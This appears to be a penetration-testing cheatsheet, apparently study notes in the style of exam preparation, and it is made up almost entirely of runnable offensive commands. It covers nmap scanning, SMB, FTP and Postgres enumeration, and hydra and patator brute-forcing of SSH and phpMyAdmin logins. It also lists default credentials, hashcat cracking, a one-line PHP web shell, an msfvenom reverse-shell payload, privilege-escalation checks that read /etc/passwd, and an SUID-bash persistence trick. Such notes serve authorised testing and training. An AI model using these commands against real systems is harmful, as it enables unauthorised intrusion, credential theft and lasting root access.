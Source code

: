 # cyberphor's Pentesting Cheatsheet

## Reconnaissance
### Ports
```bash
sudo nmap $TARGET -sS -sU -oN scans/$TARGET-nmap-initial
sudo nmap $TARGET -sS -sU -p- -oN scans/$TARGET-nmap-complete
```

## Enumeration
### Service Versions
```bash
sudo nmap $TARGET -sV -sC $(print-open-ports-from-nmap-scan scans/$NAME-nmap-complete) -oN scans/$NAME-nmap-versions
```

### Operating System
```bash
sudo nmap $TARGET -O -oN scans/$NAME-nmap-os
```

#### FTP
```bash
cd loot
touch README.too # create a file
ftp $TARGET 21 # login using anonymous:anonymous
put README.too # upload file created above (i.e. check if we have write privileges)
ls
binary 
get file.txt # download a file (i.e. check if we have read privileges)
mget * # download everything
exit
```

#### SSH
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt  ssh://10.11.12.13
```

#### SMTP
```bash
sudo nmap $TARGET -p25 --script smtp-commands -oN scans/$NAME-nmap-scripts-smtp-commands
```

```bash
sudo nmap $TARGET -p25 --script smtp-enum-users --script-args smtp-enum-users.methods={VRFY,EXPN,RCPT} -oN scans/$NAME-nmap-scripts-smtp-enum-users
```

```bash
smtp-user-enum -M VRFY -U /usr/share/wordlists/metasploit/unix_users.txt -t $TARGET
```

Automated enumeration of exploitable SMTP vulnerabilities.
```bash
sudo nmap $TARGET -p25 --script smtp-vuln* -oN scans/mailman-nmap-scripts-smtp-vuln
# replace the lines above with the actual scan results
```

### HTTP
```bash
sudo nmap $TARGET -p80 --script http-shellshock -oN scans/$NAME-nmap-scripts-http-shellshock-80
```

```bash
dirb http://$TARGET:80 /usr/share/wordlists/dirb/big.txt -z10 -o scans/$NAME-dirb-big-80
```

```bash
dirsearch -u $TARGET:$PORT -o $FULLPATH/$NAME-dirsearch-80
```

```bash
nikto -h $TARGET -p $PORT -T 2 -Format txt -o scans/$NAME-nikto-misconfig-80
```

### RPC
```bash
rpcclient -U '' $TARGET
srvinfo
netshareenum
```

### NetBIOS
```bash
nbtscan $TARGET
```

### SMB
The following SMB shares were discovered using Smbclient.
```bash
smbclient -L $TARGET
```

The SMB shares discovered have the following permissions.
```bash
smbmap -H $TARGET
```

Download files.
```bash
cd loot
smbclient \\\\$TARGET\\$SHARE
prompt
mget *
```

```bash
# check if vulnerable to EternalBlue
sudo nmap $TARGET -p445 --script smb-vuln-ms17-010 -oN scans/$NAME-nmap-scripts-smb-vuln-ms17-010
```

The target is NOT vulnerable to SambaCry.
```bash
# check if vulnerable to SambaCry
sudo nmap $TARGET -p445 --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -oN scans/$NAME-nmap-scripts-smb-vuln-cve-2017-7494
```

### SQL
```bash
mysql -u $USER -h $TARGET
```

### RDP
```bash
sudo nmap $TARGET -p3389 --script rdp-ntlm-info -oN scans/$NAME-nmap-scripts-rdp-ntlm-info
```

```bash
rdesktop -u administrator $TARGET
```

### Postgres
```bash
psql -U postgres -p 5437 -h $TARGET # postgres:postgres
SELECT pg_ls_dir('/');
```

## Gaining Access
### Password Guessing  
#### Default Credentials
```bash
# anonymous:anonymous
# guest:guest
# admin:admin
# admin:adminadmin
```

#### Hydra
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt $TARGET http-post-form "/phpmyadmin/index.php?:pma_username=^USER^&pma_password=^PASS^:Cannot|without"
```

#### Patator
```bash
patator http_fuzz url=http://$TARGET/$LOGIN method=POST body='username=FILE0&password=FILE1' 0=usernames.txt 1=/usr/share/wordlists/rockyout.txt -x ignore:fgrep=Unauthorized
```

#### Hashcat
```hash
# modes - SHA256: 1400
# attacks - Dictionary: 0
hashcat -m $MODE -a $ATTACK /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
hashcat -m 1400 -a 0 /path/to/hashes.txt /usr/share/wordlists/rockyou.txt 
```

### Remote File Inclusion
```bash
# find a way to upload a PHP command shell
vim cmd.php
<?php echo shell_exec($_GET['cmd']); ?>
```

### Reverse Shell
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=$TARGET LPORT=$PORT -f elf -o rshell.elf
```

## Maintaining Access

### Privilege Escalation
#### Linux
```bash
whoami
uname -a
dpkg -l # debian
rpm -qa # red hat
cat /etc/passwd
find / -perm -u=s -type f 2> /dev/null
cat /etc/crontab
ps aux | grep -v "\[" | grep root
```

#### Windows
```bash
whoami
whoami /priv
net user
systeminfo
dir c:\
wmic service get name,startname
cd "c:\program files"
cd "c:\program files (x86)"
wmic service get name,pathname,startname | findstr "Program Files"
cacls *.exe
```

### Persistence
#### Rootbash
Credit: Tib3rius
```bash
# as root, create a copy of BASH and then set the SUID-bit
# to resume root-access execute the new binary using -p
cp /bin/bash /tmp/bash; chown root /tmp/bash; chmod u+s /tmp/bash; chmod o+x /tmp/bash
/tmp/bash -p
```